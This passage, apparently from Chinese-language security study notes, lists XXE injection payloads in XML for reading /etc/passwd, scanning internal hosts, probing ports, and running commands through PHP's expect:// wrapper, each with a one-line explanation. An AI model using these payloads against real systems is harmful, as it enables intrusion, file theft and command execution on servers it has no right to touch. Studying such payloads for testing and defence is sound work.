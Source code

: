 2. 系统文件读取

   ```
   <!DOCTYPE TEST [<!ENTITY xxe SYSTEM "file://etc/passwd">]>----DTD部分
   <catalog>
   	<core id ="test101">
   		<author>John</author>
   		<title>I love XML</title>
   		<category>Computers</category>------XML部分
   		<pricr>9.99</pricr>
   		<data>2018-10-01</data>
   		<description>&xxe;</description>
   ```

3. 内网主机扫描

   利用协议和ip地址最后一位字典遍历，结合Brup爆破返回数据包长度判断

   ```
   <!DOCTYPE TEST [<!ENTITY xxe SYSTEM "http://192.168.1.1">]>----DTD部分
   <catalog>
   	<core id ="test101">
   		<author>John</author>
   		<title>I love XML</title>
   		<category>Computers</category>------XML部分
   		<pricr>9.99</pricr>
   		<data>2018-10-01</data>
   		<description>&xxe;</description>
   ```

4. 端口探测

   代码将尝试于端口8080通信，根据响应事件/长度攻击者可以判断该端口是否被开启

   ```
   <!DOCTYPE TEST [<!ENTITY xxe SYSTEM "http://192.168.1.1:8080">]>----DTD部分
   <catalog>
   	<core id ="test101">
   		<author>John</author>
   		<title>I love XML</title>
   		<category>Computers</category>------XML部分
   		<pricr>9.99</pricr>
   		<data>2018-10-01</data>
   		<description>&xxe;</description>
   ```

5. 远程代码执行

   当配置不当/开发内部应用，且PHP的expect模块被加载到了易受攻击的系统或处理XML的内部应用上能执行

   ```
   <!DOCTYPE TEST [<!ENTITY xxe SYSTEM "expect://id">]>----DTD部分
   <catalog>
   	<core id ="test101">
   		<author>John</author>
   		<title>I love XML</title>
   		<category>Computers</category>------XML部分
   		<pricr>9.99</pricr>
   		<data>2018-10-01</data>
   		<description>&xxe;</description>
   ```
